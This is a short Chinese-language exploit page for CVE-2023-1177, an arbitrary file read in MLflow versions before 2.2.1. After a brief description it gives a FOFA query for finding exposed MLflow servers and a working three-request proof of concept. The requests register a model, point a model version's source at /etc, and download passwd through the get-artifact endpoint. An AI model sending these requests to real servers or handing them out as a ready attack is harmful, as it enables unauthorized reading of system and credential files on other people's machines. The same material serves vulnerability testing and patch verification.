




# MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

```
MLflow < 2.2.1
```

## FOFA

```
app.name="MLflow"
```

## 漏洞复现

登陆页面



验证POC

```
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```



```
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```



```
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

